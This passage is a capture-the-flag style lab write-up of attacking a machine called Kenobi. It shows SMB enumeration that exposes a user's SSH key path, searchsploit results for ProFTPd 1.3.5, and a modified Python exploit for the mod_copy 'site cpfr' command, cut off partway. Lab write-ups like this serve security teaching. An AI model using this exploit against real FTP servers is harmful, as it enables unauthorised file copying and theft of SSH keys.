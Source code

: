 
This scan exposed a potential `kenobi` user and also identified an anonymous share. I connected to that share and was lucky to find a `logs.txt` file that turned out to be a gold mine, exposing the `kenobi` user and a path to an SSH key. This also contained a possibly up-to-date copy of the samba config file that pointed to where the users home directory and the samba share were.

```bash
smb: \> get log.txt 
getting file \log.txt of size 12237 as log.txt (1991.7 KiloBytes/sec) (average 1991.7 KiloBytes/sec)
root@kali:~# cat log.txt | head -n 7
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kenobi/.ssh/id_rsa): 
Created directory '/home/kenobi/.ssh'.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kenobi/.ssh/id_rsa.
Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.

root@kali:~# cat log.txt | grep '\[anonymous\]' -A5
[anonymous]
   path = /home/kenobi/share
   browseable = yes
   read only = yes
   guest ok = yes
```

Finally, I decided to probe around on the FTP server, which didn't appear to have anonymous logins. With a few services, a bit of a map of the environment and some service versions in hand, I ran a few search queries through `searchsploit` before landing on the following exploits for `ProFTPd 1.3.5`.

```bash
root@kali:~# searchsploit 1.3.5 -w | grep -i proftpd 
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit) | https://www.exploit-db.com/exploits/37262
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution       | https://www.exploit-db.com/exploits/36803
ProFTPd 1.3.5 - File Copy                                 | https://www.exploit-db.com/exploits/36742
root@kali:~# mkdir exploit && cd exploit/
```

### Preparing an attack

These exploits allowed me to arbitrarily copy files around on the filesystem. Since I had a key and a few points of exfiltration, it seemed worth attempting. The second option in the list, exploit `36803`, included a python script that I modified to accept a source and destination argument. I then used the exploit to move the `kenobi` user's ssh key into the samba share. I've included the modified script below.

```python
import socket
import sys

if(len(sys.argv) < 4):
    print('\n Usage : exploit.py server directory cmd')
else:
    server = sys.argv[1] # vulnerable server
    src = sys.argv[2] # source file to move
    dest = sys.argv[3] # new destination of source file

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((server, 21))
        s.recv(1024)
        print('[ + ] Connected to server [ + ]\n')
        s.send(f'site cpfr {src} \n'.encode())
```